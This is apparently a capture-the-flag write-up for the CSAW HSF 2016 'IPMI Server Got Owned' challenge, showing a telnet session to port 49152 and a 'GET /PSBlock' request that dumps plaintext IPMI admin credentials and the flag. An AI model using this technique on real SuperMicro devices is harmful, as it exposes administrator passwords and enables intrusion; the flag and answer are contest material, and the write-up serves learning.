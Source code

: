 # CSAW HSF 2016 Prelims: IPMI Server Got Owned

**Category:** Network Forensics
**Points:** 300
**Solves:** ?
**Description:**

> We don’t need security on embedded devices anyway, right?
> 
> http://prod_atl_dc3_r49_u23.rogueterminal.com/
> 
> Challenge by Gus Naughton

## Write-up

When we navigate to ``23.226.239.10``, we are greeted with a SuperMicro IPMI server login page. Looking up SuperMicro IPMI vulnerabilities, we stumble upon this link [http://serverfault.com/questions/606877/how-to-check-if-my-supermicro-ipmi-is-compromised-with-plaintext-admin-password] (http://serverfault.com/questions/606877/how-to-check-if-my-supermicro-ipmi-is-compromised-with-plaintext-admin-password). It details that the plaintext password to the admin interface on IPMI devices can be accessed by connecting to the server motherboard on port 49152 and running ``GET /PSBlock``.

```bash
$ telnet 23.226.239.10 49152
Trying 23.226.239.10...
Connected to 23.226.239.10.
Escape character is '^]'.
ATEN SMASH-CLP System Management Shell, version 1.02
Copyright (c) 2008-2009 by ATEN International CO., Ltd.
All Rights Reserved

GET /PSBlock
=%}?
0adminADMIN**ADMIN**;TTroot**flag{1PM1_1S_MUY_1N$3CUR3_LOPL}**???%?v?i?o???DDD@??
```

### Flag

``flag{1PM1_1S_MUY_1N$3CUR3_LOPL}``

## Other write-ups and resources

### Resources
* [] ()

### Other write-ups
* (none yet)

